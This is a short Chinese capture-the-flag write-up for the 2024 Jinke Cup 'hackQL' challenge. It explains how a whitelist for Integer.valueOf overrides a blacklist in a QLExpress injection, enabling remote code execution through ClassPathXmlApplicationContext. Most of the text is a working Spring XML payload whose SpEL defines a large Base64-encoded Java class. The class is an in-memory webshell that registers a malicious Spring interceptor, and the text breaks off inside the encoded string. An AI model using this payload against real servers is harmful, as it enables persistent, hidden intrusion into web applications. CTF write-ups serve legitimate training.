






# 2024-金科杯-hackQL

#

ql表达式注入，先设置了黑名单，再给java.lang.Integer.valueOf加了个白名单，这里如果有白名单设置，所有的黑名单设置就都会无效，以白名单为准。java.lang.Integer.valueOf能传对象，所以找个构造函数能rce的类就好了。ClassPathXmlApplicationContext老演员了直接秒了：









jmg生成个内存马payload:



xml payload:

```xml
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="http://www.springframework.org/schema/beans
    http://www.springframework.org/schema/beans/spring-beans-3.0.xsd ">
    <bean id="testhello" class="com.ctf.hackql.HackQlApplication">
        <property name="message" value="#{T(org.springframework.cglib.core.ReflectUtils).defineClass('org.apache.http.client.y.DateUtil',T(org.springframework.util.Base64Utils).decodeFromString('yv66vgAAADEBRgEAIW9yZy9hcGFjaGUvaHR0cC9jbGllbnQveS9EYXRlVXRpbAcAAQEAEGphdmEvbGFuZy9PYmplY3QHAAMBAA1nZXRVcmxQYXR0ZXJuAQAUKClMamF2YS9sYW5nL1N0cmluZzsBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRhYmxlAQAEdGhpcwEAI0xvcmcvYXBhY2hlL2h0dHAvY2xpZW50L3kvRGF0ZVV0aWw7AQACLyoIAAwBAAxnZXRDbGFzc05hbWUBAC5vcmcuc3ByaW5nZnJhbWV3b3JrLkxvZzRqQ29uZmlnWHJteEludGVyY2VwdG9yCAAPAQAPZ2V0QmFzZTY0U3RyaW5nAQAKRXhjZXB0aW9ucwEAE2phdmEvaW8vSU9FeGNlcHRpb24HABMBABBqYXZhL2xhbmcvU3RyaW5nBwAVAQmYSDRzSUFBQUFBQUFBQUpWWCszc1R4eFU5SThsZUlTc2hFUUg4YUFPa2dVZ3lXSTdqMkxHZEJDeGpzSXZzcEFoTUhLZVBsVFI2WUhrbGRsYzJicHVFcHVuNzNhYVA5SjIrU0F1bEpBVVpRa1BwNCtzUC9ZZjY5WmVtWjNabFlWdHluWDcydHp0ejU4NjlkODQ5OTg3cW4vOTU1emFBUi9GM2daNlNtWXRaWmJOZzVMS212aUNYU3VaOExGSEs5WjhkS3huWlF1NDVjK0g4cEdGTE15M0xkc25VSUFSMm50VVg5VmhSTjNLeHNhSnVXWW1TbnBGYzhnb01Oak8zSkZNeFM1cUxSV25IUnExbEl6MmhHNW1pTk5mWmJSRVFPZG9PejhVamlRME9SZ1I4WTZXTUZOaWVLQmh5dXJLUWt1WXBQVldrSkpRb3BmWGlqRzRXMUx3bTlObjVnaVhRbS9qL1RrYy9JaVhnbVlzTHRHVmtscjRjL3dLN0dkYmtaR05nUWR5SCt3UHdJU1RRK21UQktOaFBDM1NHTitxNUNJMUVadWdnVFd1YnJBZnhBSFlxYSswQzNuQmtSczA3MWJ4TFlGdlpsQzV1QWhuWHdmazZxbm5iTHNjbStFaTZncFB5WEVWYTlzaVdhbGE1WkZoeVpFMDh6NlRPeXJROUVubGVZTWRkNmZoNWhWQ2haR2pZSTZCWjBySTRFZGk3dVFkSGc0aDZTNm16S25HT3NZcGRLTWFtOURMbE8ydGIwK1l5c1krTkZjcDVxVEtnbVc3d0FvKzh6MU1LK00zYVNRUzJocVoyWm5yS3V6eFVKR29BUU9DZXBLMm41eGxzalZTQnZGUlptaWFQMXU5STJvcGd6TjRoOUd5REJ6R0IvZThyY2cyUE1yRTVhVTg0bGdVT2hCdk5ScHA1ZWd6OWJlakQ0K1NwRzlXTVhxeklJQWJkQ0o0UXVHL2pMZzNEQkNwZE1teTlZSkRTWGV0WW10Zk5wQXJLU0V2bVBvZ244VlFBSXlDYkE0d3Z1WnJ2aDhLUnJUSWV4QkdNcXVCWVJQZmZUZnFFYnVXSnBZYWpBWXlqeTQ4RFJIZ2RKelJNa0MzbENqUC9STGd4SVUwNDJpZ0s0c000MFlaSkpQd0krN0dQOVZieDQxbDJoRExMTElpVExqNUpnUWYvOXpFMG5DWmFETVlCbGx4c2twa21FYkZreitDNU5zeGdsbWNaSFUvNk1WY3JwQTFNMS9CUkpvL1lUaHFXclJOMmdjaW0yZDlZSlVGOEhKOEk0R1BRQmZhc1U3REtNaDFMeXJRcDdSTnlPY21aQm5ZY1B4M0ZsMjNKdlB2Q2tibDRFQkpabGVDYzI5dWFPSGE2VHlHQURGaStQdFhhbE9xa3EybkpkTVVzMk1zeE9uRlVpMWhROFJqcmlPZWlvcUhzQmxEcnBUdkN6ZnFvQ1N1QWM2Q1Q3UnNXTlN3SzNMdTYzMjJWQWgyTlZ1cGQ5RHlXQTFqQ0p3Tk1kYnRiWVNkckZkYTV1cTFRaXNVcjJhdzBaY1pkNDc0WDhaSWk3c3NDdTVycmFQaU0wMnowakxxSEJCNElONjNPeitMVkFGN0I1K2c2TmRCL1ZLYWR1MnRYcy9TcVZId0JYMVNSZm9rZEtWTTZWakQwSWk4VGRRK3F4YS9ncXdyWXJ3V2h3YS9VdmtIYUdITHBMbTNXQjFFdmhHL2gyd3FFNzlBV0Mxc3ZXdXB5YmRib2cvZ3V2cWV3L3o2THZkN29MUldORXpsUmEwM3BsaHpvWjBFM3U1b1hkWE5ndFo5dnVDNjQ3RW5SVk11aUtpTU4yMnY4NkZGRjN4TjNyUHJ4Qy9yS2xtcWRkZjhXUFhDVk1ML0NyOVg1ZnVOMktCZGswNDgzMlp2bkd0UTEvTTdsd1pTMDg2V013SkVtWGhxM3JmVnJ5bXlSZ01WY0N3emdNbjZ2QXJoQ1JzODE0cXJocWtEN1p0czF2RTFVQzhaaWFaNUhIbXFTbHlZbW02YjVHcTRIOEVkVWFjNU5seDgzeURXcll2UXNGS3gwVDN3ME9iN0tRY0x6amtEUTFYT1o3Y2VmbUpLK2RIOW1xRmNmMUxOOWovY045dmI1Y1p1d25tWnpQRFNhazRidHh4Mm1LSzZYelhSdTNvKy9ZaCtKNkFOOXdzc251eXEvSjRXNi81ejNvUE51NFlpYzVYTWJaMDlSMzhQM3RtaTN0L3YyQ25aYzVjU0RBSit0VkFFNjBjYm5MbGNKUWR3RE9LTjdzWjNyUW4wYTFVdzlTeDJsMVI3dFhrRkhOUFRuNnpnVkRmM2xPbnFqb2I5ZHg5QmJkY3NCUjI4UGRtUHZHdXZ0ZGV2dGxPeXVXZStzV1IrbmpvcG5kM1FGSDlqYStJZG80bUhIZU5EZFZqTXU4RUU4U0EyYUZGa2VVYVBzV25mMEducHZZc0NEZitETnV4TU9ocW80L0RwZTY3NkpNWUZoM3kyTXo2N2cySEJMUjB2b09JVlRYcHpoY1BwZ2ZmaE1oNjgyOW9VK1FnT25idUo1TDBJdjNFQnF1TFdqdGVVV01yTktYRVUrOU1JSzVxc28zWUpuTmxwRnBZcFByZURUSGEzUk03UjhRYUNLejkvQWw2djRlaFhmck9LMWpwWXFmbkRtSWxxR2ZkN0x2c3M4eVQ1Y3doVkM2SFhPUGN5VUFJOVFHdUZmbEEyem05azlpQW5tL3hRenJ5T0dQSHJ4RW45aFhPS1h5aFZxWEVVLzNzYUFnOU1Fc1lpd1BlN0RRK1JFSDVhSjRjTmtTeDVqeEhJL3NTSlM5UlJkd3dINkVzNG96SDBlWnhTbFR5OTlxaXg0LzRVckd2YnloOG5ybkN0VzdpWHFiS28xOUUvVFlndFhYaFdKMEM5djRPTFV3ZEJ2eFIxY3F1SVBCL2wrcTRxVjZVT0VKWFRUOXk2V1pyMmhrU1NYRG5GeWJ0WWI1WGpsRHQ1dy94TVhjWGc2ZE1zeFFxU0dmUjArdGZIZHRSczdmSnZzSko3ZFZ4M3FqdUVZWXp6TysrWkNIZFUrbmhpOGtEMDR6Sm81Z2k2TVVtK1NtbkZxSHNVVWlabms3RVhpZDRHU1YzQ2lqbVlYa2ZtaGc0Z2ZUK05IK0xINnhDRkdTdWJqenNkcXN1TzAveFA4bEhwRUF6OXpxdFJEU3o5M1NreWhHWUgzUFRyeGFHQURld09DdUw2SElmaHFjMDRkMmIreEZtejhGK1JkaFZsUkRnQUEIABcBAAY8aW5pdD4BABUoTGphdmEvbGFuZy9TdHJpbmc7KVYMABkAGgoAFgAbAQADKClWAQAHY29udGV4dAEAEkxqYXZhL2xhbmcvT2JqZWN0OwEAC2ludGVyY2VwdG9yDAAZAB0KAAQAIQEACmdldENvbnRleHQBABQoKUxqYXZhL2xhbmcvT2JqZWN0OwwAIwAkCgACACUBAA5nZXRJbnRlcmNlcHRvcgwAJwAkCgACACgBAA5hZGRJbnRlcmNlcHRvcgEAJyhMamF2YS9sYW5nL09iamVjdDtMamF2YS9sYW5nL09iamVjdDspVgwAKgArCgACACwBABNqYXZhL2xhbmcvRXhjZXB0aW9uBwAuAQARcmVxdWVzdEF0dHJpYnV0ZXMBAAtodHRwcmVxdWVzdAEAB3Nlc3Npb24BAA5zZXJ2bGV0Q29udGV4dAEAE2FwcGxpY2F0aW9uQ29udGV4dHMBABlMamF2YS91dGlsL0xpbmtlZEhhc2hTZXQ7AQASYXBwbGljYXRpb25Db250ZXh0AQALY2xhc3NMb2FkZXIBABdMamF2YS9sYW5nL0NsYXNzTG9hZGVyOwEAFWphdmEvbGFuZy9DbGFzc0xvYWRlcgcAOQEADVN0YWNrTWFwVGFibGUBABBqYXZhL2xhbmcvVGhyZWFkBwA8AQANY3VycmVudFRocmVhZAEAFCgpTGphdmEvbGFuZy9UaHJlYWQ7DAA+AD8KAD0AQAEAFWdldENvbnRleHRDbGFzc0xvYWRlcgEAGSgpTGphdmEvbGFuZy9DbGFzc0xvYWRlcjsMAEIAQwoAPQBEAQA8b3JnLnNwcmluZ2ZyYW1ld29yay53ZWIuY29udGV4dC5yZXF1ZXN0LlJlcXVlc3RDb250ZXh0SG9sZGVyCABGAQAJbG9hZENsYXNzAQAlKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL0NsYXNzOwwASABJCgA6AEoBABRnZXRSZXF1ZXN0QXR0cmlidXRlcwgATAEADGludm9rZU1ldGhvZAEAOChMamF2YS9sYW5nL09iamVjdDtMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9PYmplY3Q7DABOAE8KAAIAUAEACmdldFJlcXVlc3QIAFIBAApnZXRTZXNzaW9uCABUAQARZ2V0U2VydmxldENvbnRleHQIAFYBAEJvcmcuc3ByaW5nZnJhbWV3b3JrLndlYi5jb250ZXh0LnN1cHBvcnQuV2ViQXBwbGljYXRpb25Db250ZXh0VXRpbHMIAFgBABhnZXRXZWJBcHBsaWNhdGlvbkNvbnRleHQIAFoBAA9qYXZhL2xhbmcvQ2xhc3MHAFwBABxqYXZheC5zZXJ2bGV0LlNlcnZsZXRDb250ZXh0CABeAQBdKExqYXZhL2xhbmcvT2JqZWN0O0xqYXZhL2xhbmcvU3RyaW5nO1tMamF2YS9sYW5nL0NsYXNzO1tMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFuZy9PYmplY3Q7DABOAGAKAAIAYQEAMW9yZy5zcHJpbmdmcmFtZXdvcmsuY29udGV4dC5zdXBwb3J0LkxpdmVCZWFuc1ZpZXcIAGMBAAtuZXdJbnN0YW5jZQwAZQAkCgBdAGYIADQBAAVnZXRGVgwAaQBPCgACAGoBABdqYXZhL3V0aWwvTGlua2VkSGFzaFNldAcAbAEACGl0ZXJhdG9yAQAWKClMamF2YS91dGlsL0l0ZXJhdG9yOwwAbgBvCgBtAHABABJqYXZhL3V0aWwvSXRlcmF0b3IHAHIBAARuZXh0DAB0ACQLAHMAdQEANW9yZy5zcHJpbmdmcmFtZXdvcmsud2ViLmNvbnRleHQuV2ViQXBwbGljYXRpb25Db250ZXh0CAB3AQAIZ2V0Q2xhc3MBABMoKUxqYXZhL2xhbmcvQ2xhc3M7DAB5AHoKAAQAewEAEGlzQXNzaWduYWJsZUZyb20BABQoTGphdmEvbGFuZy9DbGFzczspWgwAfQB+CgBdAH8BACBqYXZhL2xhbmcvQ2xhc3NOb3RGb3VuZEV4Y2VwdGlvbgcAgQEAK2phdmEvbGFuZy9yZWZsZWN0L0ludm9jYXRpb25UYXJnZXRFeGNlcHRpb24HAIMBAB9qYXZhL2xhbmcvTm9TdWNoTWV0aG9kRXhjZXB0aW9uBwCFAQAgamF2YS9sYW5nL0lsbGVnYWxBY2Nlc3NFeGNlcHRpb24HAIcBABNqYXZhL2xhbmcvVGhyb3dhYmxlBwCJAQAJY2xhenpCeXRlAQACW0IBAAtkZWZpbmVDbGFzcwEAGkxqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2Q7AQAFY2xhenoBABFMamF2YS9sYW5nL0NsYXNzOwEAAWUBABVMamF2YS9sYW5nL0V4Y2VwdGlvbjsMAA4ABgoAAgCTDAARAAYKAAIAlQEADGRlY29kZUJhc2U2NAEAFihMamF2YS9sYW5nL1N0cmluZzspW0IMAJcAmAoAAgCZAQAOZ3ppcERlY29tcHJlc3MBAAYoW0IpW0IMAJsAnAoAAgCdCACNBwCMAQARamF2YS9sYW5nL0ludGVnZXIHAKEBAARUWVBFDACjAJAJAKIApAEAEWdldERlY2xhcmVkTWV0aG9kAQBAKExqYXZhL2xhbmcvU3RyaW5nO1tMamF2YS9sYW5nL0NsYXNzOylMamF2YS9sYW5nL3JlZmxlY3QvTWV0aG9kOwwApgCnCgBdAKgBABhqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2QHAKoBAA1zZXRBY2Nlc3NpYmxlAQAEKFopVgwArACtCgCrAK4BAAd2YWx1ZU9mAQAWKEkpTGphdmEvbGFuZy9JbnRlZ2VyOwwAsACxCgCiALIBAAZpbnZva2UBADkoTGphdmEvbGFuZy9PYmplY3Q7W0xqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9sYW5nL09iamVjdDsMALQAtQoAqwC2AQAWYWJzdHJhY3RIYW5kbGVyTWFwcGluZwEAE2FkYXB0ZWRJbnRlcmNlcHRvcnMBABVMamF2YS91dGlsL0FycmF5TGlzdDsBABZMb2NhbFZhcmlhYmxlVHlwZVRhYmxlAQApTGphdmEvdXRpbC9BcnJheUxpc3Q8TGphdmEvbGFuZy9PYmplY3Q7PjsBAAdnZXRCZWFuCAC9AQAccmVxdWVzdE1hcHBpbmdIYW5kbGVyTWFwcGluZwgAvwgAuQEAE2phdmEvdXRpbC9BcnJheUxpc3QHAMIBAANhZGQBABUoTGphdmEvbGFuZy9PYmplY3Q7KVoMAMQAxQoAwwDGAQAMZGVjb2RlckNsYXNzAQAHZGVjb2RlcgEAB2lnbm9yZWQBAAliYXNlNjRTdHIBABJMamF2YS9sYW5nL1N0cmluZzsBABRMamF2YS9sYW5nL0NsYXNzPCo+OwEAFnN1bi5taXNjLkJBU0U2NERlY29kZXIIAM4BAAdmb3JOYW1lDADQAEkKAF0A0QEADGRlY29kZUJ1ZmZlcggA0wEACWdldE1ldGhvZAwA1QCnCgBdANYBABBqYXZhLnV0aWwuQmFzZTY0CADYAQAKZ2V0RGVjb2RlcggA2gEABmRlY29kZQgA3AEADmNvbXByZXNzZWREYXRhAQADb3V0AQAfTGphdmEvaW8vQnl0ZUFycmF5T3V0cHV0U3RyZWFtOwEAAmluAQAeTGphdmEvaW8vQnl0ZUFycmF5SW5wdXRTdHJlYW07AQAGdW5nemlwAQAfTGphdmEvdXRpbC96aXAvR1pJUElucHV0U3RyZWFtOwEABmJ1ZmZlcgEAAW4BAAFJAQAdamF2YS9pby9CeXRlQXJyYXlPdXRwdXRTdHJlYW0HAOgBABxqYXZhL2lvL0J5dGVBcnJheUlucHV0U3RyZWFtBwDqAQAdamF2YS91dGlsL3ppcC9HWklQSW5wdXRTdHJlYW0HAOwKAOkAIQEABShbQilWDAAZAO8KAOsA8AEAGChMamF2YS9pby9JbnB1dFN0cmVhbTspVgwAGQDyCgDtAPMBAARyZWFkAQAFKFtCKUkMAPUA9goA7QD3AQAFd3JpdGUBAAcoW0JJSSlWDAD5APoKAOkA+wEAC3RvQnl0ZUFycmF5AQAEKClbQgwA/QD+CgDpAP8BAAVzZXRGVgEAOShMamF2YS9sYW5nL09iamVjdDtMamF2YS9sYW5nL1N0cmluZztMamF2YS9sYW5nL09iamVjdDspVgEABHZhcjABAAR2YXIxAQADdmFsAQAEZ2V0RgEAPyhMamF2YS9sYW5nL09iamVjdDtMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9yZWZsZWN0L0ZpZWxkOwwBBgEHCgACAQgBABdqYXZhL2xhbmcvcmVmbGVjdC9GaWVsZAcBCgEAA3NldAwBDAArCgELAQ0BAANvYmoBAAlmaWVsZE5hbWUBAAVmaWVsZAEAGUxqYXZhL2xhbmcvcmVmbGVjdC9GaWVsZDsKAQsArgEAA2dldAEAJihMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFu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